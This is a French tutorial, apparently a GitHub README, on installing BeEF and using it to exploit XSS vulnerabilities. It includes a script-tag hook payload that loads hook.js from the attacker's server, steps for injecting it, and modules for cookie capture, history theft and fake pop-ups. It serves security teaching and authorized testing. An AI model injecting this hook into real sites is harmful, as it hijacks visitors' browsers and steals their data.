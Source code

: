 # BeEF et Hacking XSS

## Introduction

BeEF, ou Browser Exploitation Framework, est un outil puissant utilisé pour tester la sécurité des navigateurs web en exploitant les vulnérabilités XSS (Cross-Site Scripting). Ce guide vous aidera à comprendre comment utiliser BeEF pour exploiter les vulnérabilités XSS et tester la sécurité de vos applications web.

## Prérequis

- Une machine avec une distribution Linux (ex. : Ubuntu)
- Ruby installé
- Git installé

## Installation de BeEF

1. Clonez le dépôt BeEF depuis GitHub :

   ```sh
   git clone https://github.com/beefproject/beef.git
   ```

2. Accédez au répertoire BeEF :

   ```sh
   cd beef
   ```

3. Installez les dépendances :

   ```sh
   ./install
   ```

4. Démarrez BeEF :

   ```sh
   ./beef
   ```

## Configuration de BeEF

1. Ouvrez le fichier de configuration BeEF (`config.yaml`) dans un éditeur de texte :

   ```sh
   nano config.yaml
   ```

2. Configurez les paramètres suivants :
   
   - `beef.credentials.user: "votre_utilisateur"`
   - `beef.credentials.passwd: "votre_mot_de_passe"`

3. Sauvegardez et fermez le fichier.

## Utilisation de BeEF

### Accès à l'Interface Web de BeEF

1. Ouvrez votre navigateur et accédez à `http://localhost:3000/ui/panel`.

2. Connectez-vous avec les identifiants configurés dans `config.yaml`.

### Exploitation XSS avec BeEF

#### Injection d'un Hook JavaScript

Pour exploiter une vulnérabilité XSS, vous devez injecter un hook JavaScript dans la page cible. Voici un exemple de code de hook :

```html
<script src="http://[IP_de_votre_serveur]:3000/hook.js"></script>
```

Remplacez `[IP_de_votre_serveur]` par l'adresse IP de votre machine exécutant BeEF.

#### Simulation d'une Attaque XSS

1. Identifiez une vulnérabilité XSS dans l'application web cible.

2. Injectez le code de hook JavaScript dans le champ vulnérable.

3. Une fois le hook exécuté, l'interface BeEF affichera la cible comme un "Zombie Browser".

### Modules d'Exploitation

BeEF fournit plusieurs modules d'exploitation que vous pouvez utiliser une fois que le navigateur de la victime est hooké. Voici quelques exemples :

- **Social Engineering** : Affichage de faux pop-ups, redirections, etc.
- **Network** : Scan de ports, collecte d'informations réseau.
- **Browser** : Récupération d'historique de navigation, capture de cookies.

Pour utiliser un module :

1. Sélectionnez le "Zombie Browser" dans l'interface BeEF.
2. Allez dans l'onglet "Commands".
3. Choisissez un module et cliquez sur "Execute".

## Conclusion

BeEF est un outil puissant pour tester la sécurité des navigateurs et des applications web contre les attaques XSS. En comprenant comment injecter des hooks JavaScript et utiliser les modules d'exploitation de BeEF, vous pouvez identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées par des attaquants malveillants.

## Avertissement

L'utilisation de BeEF pour attaquer des systèmes sans autorisation est illégale et contraire à l'éthique. Ce guide est destiné à des fins éducatives et de test de sécurité autorisés uniquement. Utilisez BeEF de manière responsable.

## Ressources

- [BeEF Project GitHub](https://github.com/beefproject/beef)
- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
